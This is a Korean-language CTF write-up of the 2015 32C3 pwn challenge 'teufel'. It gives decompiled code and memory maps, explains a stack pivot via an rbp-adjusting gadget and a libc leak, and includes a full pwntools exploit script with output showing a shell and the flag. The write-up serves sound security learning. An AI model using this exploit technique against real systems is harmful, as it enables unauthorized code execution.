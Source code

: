 # 2015 32C3 - [PWN] teufel

## Key words

- Virtual Memory Privilege
- Stack overflow/underflow

## Check Security

```
[*] '/home/tbkim/ctf/pwnable/0020_2015_32C3_teufel/teufel'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

문제는 손으로 제작한 듯 어셈블리로 시작합니다.

전체적인 모습을 코드로 나타내면 다음과 같습니다.

```c
int sub_4004E6()
{
  size_t buf; // [sp+0h] [bp-8h]@1

  JUMPOUT(read(0, &buf, 8uLL), 0LL, &loc_4004DE);
  JUMPOUT(read(0, &buf, buf), 0LL, &loc_4004DE);
  puts((const char *)&buf);
  return fflush(0LL);
}

void __noreturn start()
{
  void *v0; // rax@1
  __int64 v1; // rax@2

  v0 = mmap(0LL, 0x3000uLL, 0, 34, 0, 0LL);
  if ( v0 != (void *)-1 )
  {
    LODWORD(v1) = mprotect((char *)v0 + 4096, 0x1000uLL, 3);
    if ( v1 != -1 )
    {
      while ( 1 )
        sub_4004E6();
    }
  }
  _exit(0);
}
```

`mmap` 으로 페이지를 할당한 후, 해당 페이지를 스택으로 사용하는데 `v0` 영역 근처에 `wr` 권한이 없기 때문에 `sub_4004e6` 에서 오버플로우를 이용해서 공격하기가 까다롭습니다.

```
gdb-peda$ vmmap
Start              End                Perm  Name
0x00400000         0x00401000         r-xp  /home/tbkim/ctf/pwnable/0020_2015_32C3_teufel/teufel
0x00600000         0x00601000         r--p  /home/tbkim/ctf/pwnable/0020_2015_32C3_teufel/teufel
0x00601000         0x00622000         rw-p  [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp  /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p  /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p  /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p  /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p  mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp  /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p  mapped
0x00007ffff7ff3000 0x00007ffff7ff4000 ---p  mapped
-> 0x00007ffff7ff4000 0x00007ffff7ff5000 rw-p  mapped
0x00007ffff7ff5000 0x00007ffff7ff6000 ---p  mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p  mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p  [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp  [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p  /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p  /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p  mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p  [stack]
0xffffffffff600000 0xffffffffff601000 r-xp  [vsyscall]
```

`0x00007ffff7ff4000 - 0x00007ffff7ff5000` 위치가 할당된 위치인데 위 아래 페이지가 모두 `---p` 이기 때문에 스택을 잘못 사용하면 바로 메모리 커럽션 에러가 발생합니다.

아이디어는 `rbp` 를 `0x00007ffff7ff4000` 와 `0x00007ffff7ff5000`의 사이인 `0x00007ffff7ff4800` 으로 맞추게 되면 페이지 위 아래로 `0x800` 정도의 `rw` 여유가 생기기 때문에 문제에서 의도했던 오류를 피할 수 있습니다.

`rbp`를 위로 옮기기 위해 아래 가젯을 사용합니다.

```
.text:00000000004004CD                 add     rbp, 2000h
.text:00000000004004D4                 mov     rsp, rbp
```

이렇게 하지 않으면 `rsp`가 스택 상단을 때리게 되어 메모리 커럽션이 발생합니다.

처음에 `RBP`를 릭하여 현재 위치와 `libc` 주소를 계산하고 `one_shot` 가젯을 넣으면 되는데 두 번째 페이로드에서 주의할점은 `RBP+0x2000`을 하지 않기 때문에 이를 고려해서 `RBP`를 넣어줘야 `one_shot` 중간에 문제가 발생하지 않습니다.

## Solution code 

```python
from pwn import *

target = "./teufel"

p = process(target)

# local ASLR ON - shared library not provided
libc_off = 0x5f0000
vul_addr = 0x4004e6

p.send(p64(0xf0))

payload = "A"*8
payload += "Z"

p.send(payload)

# 41414141414141415a50fff7ff7f0a
data = p.recv()
rbp = "\x00" + data.split("Z")[1][:-1]
rbp = u64(rbp.ljust(8, "\x00"))
libc_base = rbp - libc_off
one_shot  = libc_base + 0x4526a
ret_again = 0x4004cd
system    = libc_base + 0x45390

print "rbp    : {}".format(hex(rbp))
print "libc   : {}".format(hex(libc_base))
print "system : {}".format(hex(system))

p.send(p64(0xf0))
payload = p64(0xf0)
payload += p64(rbp-0x2800)
payload += p64(ret_again)
p.send(payload)
print p.recv()

p.send(p64(0xf0))

payload = p64(0xf0)
payload += p64(rbp-0x800)
payload += p64(one_shot)
p.send(payload)

p.interactive()
```


## Result

```
tbkim@ubuntu:~/ctf/pwnable/0020_2015_32C3_teufel$ python sol_teufel.py 
[+] Starting local process './teufel': pid 91825
rbp    : 0x7f6e56a5b000
libc   : 0x7f6e5646b000
system : 0x7f6e564b0390

[*] Switching to interactive mode 
$ ls -l
total 6216
-rw------- 1 tbkim tbkim 4472832 Aug 18 21:24 core
-rw-rw-r-- 1 tbkim tbkim      24 Aug 18 20:35 flag.txt
-rwxrwxrwx 1 tbkim tbkim 1869392 Dec 26  2015 libc.so.6
-rw-r--r-- 1 root  root       18 Aug 18 21:34 peda-session-teufel.txt
-rw-rw-r-- 1 tbkim tbkim     787 Aug 18 21:37 sol_teufel.py
-rwxrwxrwx 1 tbkim tbkim    5192 Dec 13  2015 teufel
$ cat flag.txt
32C3_mov_pop_ret_repeat
$ 
[*] Stopped process './teufel' (pid 91825)
```